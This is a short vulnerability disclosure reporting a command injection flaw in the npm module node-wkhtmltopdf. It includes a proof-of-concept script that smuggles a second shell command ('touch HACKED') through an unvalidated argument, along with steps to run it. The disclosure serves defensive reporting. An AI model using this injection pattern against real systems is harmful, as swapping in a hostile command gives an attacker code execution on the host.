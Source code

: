 # Description

The `node-wkhtmltopdf` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var wkhtmltopdf = require("node-wkhtmltopdf");
wkhtmltopdf("", "test", "test; touch HACKED; #", function(err){});

```
2. Check there aren't files called `HACKED` 
3 Execute the following commands in another terminal:

```bash
npm i node-wkhtmltopdf # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
